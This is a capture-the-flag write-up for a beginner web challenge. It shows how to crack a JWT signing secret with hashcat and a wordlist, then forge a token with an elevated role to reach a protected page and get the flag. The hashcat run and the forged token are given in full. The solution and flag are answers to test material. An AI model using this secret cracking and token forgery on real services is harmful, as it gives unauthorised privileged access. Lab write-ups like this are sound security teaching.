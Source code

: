 # Challenge
Beginner/Secret-of-Kurama
h4l0gen
175 solves / 374 points
Madara attacked leaf village. everyone wants Naruto to turn into Nine-Tails, Naruto don't know what's the SECRET to change its role to 'NineTails'? can you as a shinobi help Naruto??? username: Naruto Password: Chakra
http://34.132.132.69:8004/

# Solution
Textbook jwt bruteforce.
Once logged in, there is a jwt cookie with value: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJzaGlub2JpIn0.WJv_YcVsRV15PqzGpq10-w5i2mJ_BI1mBzkZMtAPnIQ`

Using `jwt.io` it decodes to:
```
{
  "username": "Naruto",
  "role": "shinobi"
}
```

Use hashcat to crack the secret:
```
$ echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJzaGlub2JpIn0.WJv_YcVsRV15PqzGpq10-w5i2mJ_BI1mBzkZMtAPnIQ" > jwt.txt
                                                                                                                            
% hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/rockyou.txt  
hashcat (v6.2.5) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-9700K CPU @ 3.60GHz, 2917/5899 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJzaGlub2JpIn0.WJv_YcVsRV15PqzGpq10-w5i2mJ_BI1mBzkZMtAPnIQ:minato
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZS...tAPnIQ
Time.Started.....: Mon Dec 18 05:53:45 2023 (0 secs)
Time.Estimated...: Mon Dec 18 05:53:45 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1184.0 kH/s (0.81ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 114688/14344385 (0.80%)
Rejected.........: 0/114688 (0.00%)
Restore.Point....: 110592/14344385 (0.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: munster1 -> 022593
Hardware.Mon.#1..: Util: 14%

Started: Mon Dec 18 05:53:22 2023
Stopped: Mon Dec 18 05:53:46 2023

```

Secret is `minato`. Again, using `jwt.io`, place in the signature the value `minato` and change the payload to:
```
{
  "username": "Naruto",
  "role": "NineTails"
}
```
The resulting value is: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJOaW5lVGFpbHMifQ.rDZ26ZE_F4l0Ve4E-2sKP4qKNuadhLU8nrThW7YGVPg`. Change the cookie with this value and visit the http://34.132.132.69:8004/secret_of_Kurama link. 


Flag: flag{y0u_ar3_tru3_L34F_sh1n0b1_bf56gtr59894}